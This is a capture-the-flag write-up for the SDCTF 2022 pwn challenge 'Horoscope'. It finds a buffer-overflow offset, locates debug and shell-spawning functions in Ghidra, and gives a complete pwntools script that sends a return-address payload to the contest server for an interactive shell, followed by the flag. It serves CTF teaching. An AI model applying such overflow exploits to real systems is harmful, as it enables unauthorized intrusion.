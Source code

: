 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | Horoscope Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: pwn
challenge: Horoscope
tags: "pwn, taz"
date: 2022-05-10T00:00:00+00:00
last_update: 2022-05-10T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Sdctf 2022</h1>

## Horoscope
> Solved by: Taz34

Here we have a binary so the first thing i started to look for is to get a segmentation fault and we got it.


![](https://i.imgur.com/DQB46Va.png)


Now I started looking for offset so the offset multiple to be added is 42 
i.e.
 

    python3 -c "print('10/10/1999/10:' + '1'*42)"
    Hence the payload is: 10/10/1999/10:111111111111111111111111111111111111111111

Now we started looking at Ghidra, and we found a function “test” from which we can get a shell on target.

![](https://i.imgur.com/2LPxEzD.png)


here we have a problem that we need to make this (temp == 1) conditon true.
So, after going to other functions we found another function “debug”

![](https://i.imgur.com/NWfIhEj.png)


Now we can construct the final payload as:

    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + debug_fun_addr  + test_fun_addr

hence the final script:

    from pwn import *
    
    p = remote("horoscope.sdc.tf", 1337)
    
    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + p64(0x40096e) +p64(0x400950)
    
    p.sendline(payload)
    
    p.interactive()

now just execute this script to get the flag

![](https://i.imgur.com/QlX6mYU.png)

    Flag: sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}

